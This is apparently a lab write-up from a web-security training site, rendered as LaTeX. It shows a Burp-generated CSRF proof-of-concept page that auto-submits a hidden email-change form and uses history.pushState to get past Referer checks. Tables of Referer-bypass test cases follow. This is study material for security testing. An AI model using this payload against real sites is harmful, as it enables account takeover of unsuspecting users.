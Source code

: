 \documentclass{article}
\begin{document}
\begin{lstlisting}[frame=single]
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae30066047b8a858251259a00ed0054.web-secur
    ity-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ssf&#64;mdsail&#46;com"/>
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0ae30066047b8a858251259a00ed0054.web-s
      ecurity-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
\end{lstlisting}

Note $\Longrightarrow$ the last parameter in method "history.pushState" is the query parameter which is the vuln website as you see


\subsection*{Testing Methodology for Referer Validation Bypass}

\subsubsection*{1. Referer Header Analysis}
\begin{tabular}{>{\raggedright\arraybackslash}p{}>{\raggedright\arraybackslash}p{}}
    \toprule
    \textbf{Test} & \textbf{Procedure} \\
    \midrule
    Header presence check & Verify if application checks for Referer header existence \\
    Validation logic & Determine how Referer domain is validated \\
    Absent header handling & Test requests with Referer header completely removed \\
    \bottomrule
\end{tabular}

\subsubsection*{2. Validation Logic Testing}
\begin{tabular}{>{\raggedright\arraybackslash}p{}>{\raggedright\arraybackslash}p{}}
    \toprule
    \textbf{Test Case} & \textbf{Expected Result} \\
    \midrule
    Subdomain bypass & Application accepts \texttt{target.com.attacker.com} as valid \\
    Query string inclusion & Application accepts Referer with target in query parameters \\
    Path manipulation & Application accepts Referer with target in path \\
    Protocol variations & Test HTTP vs HTTPS Referer handling \\
    \bottomrule
\end{tabular}
\end{document}

